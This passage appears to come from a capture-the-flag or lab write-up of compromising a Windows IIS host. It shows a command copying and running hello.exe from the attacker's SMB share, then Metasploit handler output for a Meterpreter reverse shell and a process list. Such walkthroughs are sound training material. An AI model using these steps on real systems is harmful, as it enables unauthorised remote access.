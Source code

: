 ```powershell
08/06/2019  01:13 PM             1,206 cleanup.txt
08/06/2019  01:13 PM               421 cmdout
08/06/2019  01:11 PM                 0 DMI2EBC.tmp
08/03/2019  09:43 AM                 0 DMI4D21.tmp
08/06/2019  01:12 PM             8,743 EC2ConfigService_20190806141221.log
08/06/2019  01:12 PM           292,438 EC2ConfigService_20190806141221_000_WiXEC2ConfigSetup_64.log
08/06/2019  01:13 PM                21 stage1-complete.txt
08/06/2019  01:13 PM            28,495 stage1.txt
05/12/2019  08:03 PM           113,328 svcexec.exe
08/06/2019  01:13 PM                67 tmp.dat
              12 File(s)        634,982 bytes
               2 Dir(s)  39,108,558,848 bytes free
copy \\10.10.7.59\TX\hello.exe hello.exe
c:\Windows\Temp>copy \\10.10.7.59\TX\hello.exe hello.exe
        1 file(s) copied.
.\hello.exe
```

After executing `hello.exe`, I was able to catch the meterpreter shell which I then quickly tried to migrate to a _slightly_ stabler process. However being attached to the `cmd.exe` process still had me worried about stability.

```bash
msf5 exploit(multi/handler) > [*] Sending stage (176195 bytes) to 10.10.167.66
[*] Meterpreter session 1 opened (10.10.7.59:4444 -> 10.10.167.66:49250) at 2020-11-18 22:48:36 +0000

msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > getpid
Current pid: 1460
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User              Path
 ---   ----  ----                  ----  -------  ----              ----
 0     0     [System Process]                                       
 4     0     System                                                 
 368   4     smss.exe                                               
 520   512   csrss.exe                                              
 580   568   csrss.exe                                              
 588   512   wininit.exe                                            
 616   568   winlogon.exe                                           
 672   588   services.exe                                           
 680   588   lsass.exe                                              
 740   672   svchost.exe                                            
 784   672   svchost.exe                                            
 820   672   svchost.exe                                            
 868   616   dwm.exe                                                
 876   672   svchost.exe                                            
 904   672   svchost.exe                                            
 964   672   svchost.exe                                            
 1020  672   svchost.exe                                            
 1132  672   spoolsv.exe                                            
 1156  672   amazon-ssm-agent.exe                                   
 1208  2792  conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 1216  672   svchost.exe                                            
 1236  672   LiteAgent.exe                                          
 1292  672   svchost.exe                                            
 1356  672   svchost.exe                                            
 1372  672   svchost.exe                                            
```